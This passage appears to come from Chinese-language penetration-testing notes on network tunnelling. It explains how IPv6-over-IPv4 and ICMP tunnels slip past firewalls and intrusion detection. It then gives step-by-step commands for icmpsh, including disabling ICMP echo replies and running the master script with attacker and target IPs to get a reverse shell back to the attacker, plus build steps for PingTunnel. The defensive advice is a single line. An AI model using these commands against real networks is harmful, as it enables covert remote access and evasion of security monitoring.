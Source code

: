   ```

1. 节点A要想节点B发送IPV6报文，首先需要在节点A和节点B之间建立一条隧道
2. A将IPV6报文封装在以节点B的IPV4地址为目的地址、以自己的IPV4地址为源地址的IPV4报文中，并发往IPV4海洋
3. 在IPV4海洋中，这个报文和普通报文一样，经过IPV4转发到达节点B
4. 节点B接受到之后，接触IPV4封装，取出其中的IPv6报文

**绕过原理：**

因为现阶段的边界设备，防火墙甚至入侵防御系统还无法识别IPv6的通信数据，而大多数的操作系统支持IPv6。攻击者有时会通过恶意软件来配置允许进行IPv6通信的设备，以避开防火墙和入侵检测系统。**及时设备支持IPv6，也有可能无法正确分析封装了IPv6报文的IPv4数据包**

**工具：**

- `socat` 、`6tunnel`、`nt6tunnel`

**防御：** 过滤`IPv6`协议通信

### ICMP隧道

在一般通信过程中，如果两台设备需要进行通信，肯定要开放端口，但是`ICMP`协议就不需要。最常见的ICMP消息为`ping`命令回复，攻击者可以利用命令行得到比回复更多的ICMP请求。

**工具：**

- `icmpsh`、`PingTunnel`、`icmptunnel`、`powershell icmp`

#### icmpsh使用

- `git clone https://github.com/inquisb/icmpsh.git` 下载工具
- `pip2 install impacket` 下载包依赖
- `sysctl -w net.ipv4.icmp_echo_ignore_all=1` 关闭icmp回应
- `python2 icmpsh_m.py <攻击机IP> <目标机器IP>`
- 执行结果会在攻击机回连一个shell

#### PingTunnel使用

局限：中转服务器一定要是Linux

解决局限：https://blog.csdn.net/markecheng/article/details/110352161?utm_medium=distribute.pc_relevant.none-task-blog-2~default~baidujs_baidulandingword~default-4.pc_relevant_antiscanv2&spm=1001.2101.3001.4242.3&utm_relevant_index=7

```sh
# 安装libpacap环境依赖
apt-get install byacc
apt-get install flex bison

# 安装libpcap依赖库
wget http://www.tcpdump.org/release/libpcap-1.9.0.tar.gz
tar -xzvf libpcap-1.9.0.tar.gz
cd libpcap-1.9.0
./configure
make && make install

# 安装PingTunnel
wget http://www.cs.uit.no/~daniels/PingTunnel/PingTunnel-0.72.tar.gz
tar -xzvf PingTunnel-0.72.tar.gz
cd PingTunnel
make && make install
```
